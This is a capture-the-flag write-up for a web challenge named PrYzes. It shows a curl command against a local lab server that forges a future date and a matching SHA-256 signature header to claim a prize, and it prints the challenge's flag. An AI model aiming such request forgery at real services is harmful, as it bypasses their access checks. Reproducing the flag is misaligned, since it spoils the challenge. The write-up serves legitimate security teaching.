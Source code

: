 # PrYzes

### Category

Web

### Description

A Python enthusiast created a website to distribute prizes, but currently, you are unable to claim them. Discover a method to successfully claim a prize and obtain the flag!

Format : Hero{flag}<br>
Author : xanhacks

### Files

- [PrYzes.zip](PrYzes.zip)

### Write Up

To solve the challenge you need to validate two things:

1. The date is geater than 2100 (`if date_obj.year >= 2100:`)
2. A `X-Signature` HTTP header must be present with the sha256sum of the request body (`expected_signature = compute_sha256(json_data)`)

You can solve this challenge with a simple curl command:

```bash
$ export DATA='{"date": "01/01/2100"}';
$ curl 'http://127.0.0.1:5000/api/prizes' -d "$DATA" -H 'Content-Type: application/json' -H "X-Signature: $(echo -n $DATA|sha256sum|cut -d' ' -f1)"
{"message":"Hero{PrYzes_4r3_4m4z1ng!!!9371497139}"}
```

### Flag

Hero{PrYzes_4r3_4m4z1ng!!!9371497139}